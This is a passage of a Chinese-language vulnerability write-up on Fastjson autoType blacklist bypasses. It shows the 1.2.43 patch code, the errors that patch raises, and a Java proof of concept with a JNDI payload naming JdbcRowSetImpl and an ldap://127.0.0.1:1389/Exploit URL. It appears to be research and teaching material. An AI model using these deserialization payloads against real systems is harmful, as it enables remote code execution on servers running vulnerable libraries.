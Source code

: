 在`com.alibaba.fastjson.parser#checkcheckAutoType`中将`L`和`;`进行清空。这里是利用了双写的方式，前面的规则将第一组`L`和`;`，进行清空，而在`TypeUtils.loadclass`中将第二组内容清空。

[![](https://p2.ssl.qhimg.com/t01f08e253e7ca114bc.png)](https://p2.ssl.qhimg.com/t01f08e253e7ca114bc.png)

### <a class="reference-link" name="1.2.43%20%E4%BF%AE%E5%A4%8D%E6%96%B9%E5%BC%8F"></a>1.2.43 修复方式

在1.2.43版本中对了LL开头的绕过进行了封堵

```
//hash计算基础参数            long BASIC = -3750763034362895579L;            long PRIME = 1099511628211L;            //L开头，；结尾            if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) `{`                //LL开头                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) `{`                                      throw new JSONException("autoType is not support. " + typeName);                `}`                className = className.substring(1, className.length() - 1);            `}`
```

再次执行poc代码可以看到报错了。

```
Exception in thread "main" com.alibaba.fastjson.JSONException: autoType is not support. LLcom.sun.rowset.JdbcRowSetImpl;;    at com.alibaba.fastjson.parser.ParserConfig.checkAutoType(ParserConfig.java:914)    at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:311)    at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1338)    at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1304)    at com.alibaba.fastjson.JSON.parse(JSON.java:152)    at com.alibaba.fastjson.JSON.parse(JSON.java:162)    at com.alibaba.fastjson.JSON.parse(JSON.java:131)    at com.nice0e3.POC.main(POC.java:12)
```

### <a class="reference-link" name="1.2.43%20%E7%BB%95%E8%BF%87%E6%96%B9%E5%BC%8F"></a>1.2.43 绕过方式

前面可以看到`[`也进行了清空，可以从该地方进行入手。

```
public class POC `{`    public static void main(String[] args) `{`        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);        String PoC = "`{`\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[, \"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\", \"autoCommit\":true`}`";        JSON.parse(PoC);    `}``}`
```

执行报错了，报错信息如下：

```
Exception in thread "main" com.alibaba.fastjson.JSONException: syntax error, expect `{`, actual string, pos 44, fastjson-version 1.2.43    at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:451)    at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseRest(JavaBeanDeserializer.java:1261)    at com.alibaba.fastjson.parser.deserializer.FastjsonASMDeserializer_1_JdbcRowSetImpl.deserialze(Unknown Source)    at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:267)    at com.alibaba.fastjson.parser.DefaultJSONParser.parseArray(DefaultJSONParser.java:729)    at com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze(ObjectArrayCodec.java:183)    at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:373)    at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1338)    at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1304)    at com.alibaba.fastjson.JSON.parse(JSON.java:152)    at com.alibaba.fastjson.JSON.parse(JSON.java:162)    at com.alibaba.fastjson.JSON.parse(JSON.java:131)    at com.nice0e3.POC.main(POC.java:12)
```
